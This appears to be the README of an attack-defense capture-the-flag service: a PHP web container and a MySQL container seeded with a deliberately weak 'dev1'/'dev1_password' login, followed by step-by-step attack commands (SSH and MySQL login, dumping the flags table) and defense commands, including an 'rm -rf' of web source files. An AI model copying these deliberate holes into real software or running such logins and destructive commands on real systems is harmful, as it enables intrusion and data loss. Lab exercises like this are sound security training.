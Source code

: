# Service definition:
- We have two dockers: 
1. A Mysql Database one which contains the flags. 
2. The php one who has install all the services. 
The attacker has access to a web page (web_docker) that has different options to access the information and also the option to create users.
The flags are stored in db docker database and attacker has to go in with the options provided. 

# Service implementation:
web docker is configured to take a copy index.html file from the host machine, letting it in '/var/www/html/index.html'. 
db docker is configured attending to the following tips:
  - It has openssh-server installed and started. 
  - It has a user called 'dev1' whose password is 'dev1_password'. 

 'dev1' user will never be changed, but password can be changed. Moreover, it has also the same user and password for the database. 
 
-Flags: 
    Flags will be stored in 'webdatubasea_db_1' docker's flags in faulty_db database and flags table. 

# About exploting:
- The attacker can use the web to find the flag in the table or create a new db user and get the flag from terminal.
- The defender should change 'dev1' user's password. It has to change dev1 db user password and remove all the users created. It cas to remove or restrict access to create_user.php and show_info.php.
  
  Attack performed by Team1 against Team 2. 
  Inspect web page in 10.0.1.101
      We can create user.
      We can check flags.
  ssh -p 2222 dev1@10.0.1.101
        Enter 'dev1_password' as password
  mysql -h 10.0.1.101 -P 3306 -u dev1 -p
  USE faulty_db;
  SELECT * FROM flags;
     Copy last flags
     Exit

     Aldatu....
  'ssh -i /home/urko/Deskargak/keyak/team2-sshkey root@10.0.1.1'
  nano /root/xxx.flag
    Paste copied flags. 
    ...

  Defense performed by Team2
     'ssh root@10.0.0.102'
     docker exec -it webdatubasea_web_1 /bin/bash
     passwd dev1
     rm -rf /var/www/html/src/*

     mysql -h 10.0.1.101 -P 3306 -u dev1 -p
     SET PASSWORD FOR 'dev1'@'%' = PASSWORD('new_password');
     SELECT User, Host FROM mysql.user;
     DROP USER 'username'@'host';

     

# Checker checks:
- Ports to reach dockers are open (WEB:80)
- User 'dev1' exists in webdatubasea_web docker. 
- User 'dev1' exists in webdatubasea_db docker. 
- User 'root' exists in webdatubasea_db docker.
- /var/www/html/index.html file's content from webdatubasea_web docker has not been changed. 


# License notes


